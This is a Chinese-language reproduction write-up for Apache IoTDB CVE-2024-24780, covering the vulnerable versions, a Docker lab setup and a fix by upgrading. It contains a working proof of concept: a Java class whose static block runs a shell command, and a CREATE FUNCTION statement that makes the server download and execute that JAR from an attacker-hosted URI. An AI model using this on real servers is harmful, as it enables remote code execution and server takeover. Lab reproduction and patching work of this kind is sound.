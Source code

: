 # Apache IoTDB UDF 远程代码执行漏洞 CVE-2024-24780

## 漏洞描述

Apache IoTDB（物联网数据库）是支持收集、存储、管理与分析物联网时序数据的软件系统。CVE-2024-24780 中，攻击者在具有创建 UDF 的权限下可构造恶意请求造成远程代码执行，控制服务器。

IoTDB 支持两种方式加载 UDF（用户自定义函数）：

- 手动部署：将包含 UDF 的 JAR 包放置于每个节点的指定目录（如 `ext/udf）`。
- URI 自动加载：在注册 UDF 时指定远程 URI，IoTDB 会自动从该地址下载 JAR 包并分发到集群中的各个节点。

攻击者可以通过 URI 自动加载的方式，指定一个恶意远程 URI。IoTDB 将从恶意远程 URI 加载包含恶意代码的 JAR 包，并分发到集群中的各个节点执行。

参考链接：

- https://iotdb.apache.org/
- http://www.openwall.com/lists/oss-security/2025/05/14/2
- https://lists.apache.org/thread/xphtm98v3zsk9vlpfh481m1ry2ctxvmj

## 漏洞影响

```
1.0.0 <= Apache IoTDB < 1.3.4
```

## 环境搭建

### 启动 IoTDB

docker-compose.yml

```
services:
  iotdb:
    image: apache/iotdb:1.2.0-standalone
    container_name: iotdb
    ports:
      - "6667:6667"
      - "31999:31999"
      - "8181:8181"
```

执行如下命令启动一个 Apache IoTDB 1.2.0 版本的服务器：

```
docker-compose up -d
```

查看启动情况：

```
docker ps
```

![](images/Apache%20IoTDB%20UDF%20远程代码执行漏洞%20CVE-2024-24780/image-20250519141116383.png)

### 安装 Cli 命令行

下载 [apache-iotdb-1.2.0-cli-bin.zip](https://archive.apache.org/dist/iotdb/1.2.0/)：

```
wget https://archive.apache.org/dist/iotdb/1.2.0/apache-iotdb-1.2.0-cli-bin.zip
unzip apache-iotdb-1.2.0-cli-bin.zip
```

启动 Cli，命令行客户端是交互式的，如果一切就绪，我们可以看到欢迎标志和声明:

```
cd apache-iotdb-1.2.0-cli-bin/
sbin/start-cli.sh -h your-ip -p 6667 -u root -pw root
```

![](images/Apache%20IoTDB%20UDF%20远程代码执行漏洞%20CVE-2024-24780/image-20250519141502540.png)

## 漏洞复现

编写类 `org.example.EvilClass`，将其编译为 `poc.jar`，将编译好的 jar 文件上传到 vps 进行托管。此处我们的恶意类中执行的命令是 `touch /tmp/awesome_poc`：

```java
package org.example;

public class EvilClass {
    static {
        try {
            Runtime.getRuntime().exec("touch /tmp/awesome_poc");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

通过 URI 自动加载，在 IoTDB 中注册恶意 UDF：

```
CREATE FUNCTION evilFunc AS 'org.example.EvilClass' USING URI 'http://<your-vps-ip>/poc.jar';
```

![](images/Apache%20IoTDB%20UDF%20远程代码执行漏洞%20CVE-2024-24780/image-20250519142349138.png)

IoTDB 会从我们的 vps 下载 `poc.jar`，加载恶意类并执行命令 。可以看到，`touch /tmp/awesome_poc` 已经执行成功：

![](images/Apache%20IoTDB%20UDF%20远程代码执行漏洞%20CVE-2024-24780/image-20250519142545665.png)

## 漏洞修复

升级至 1.3.4 及以上版本。

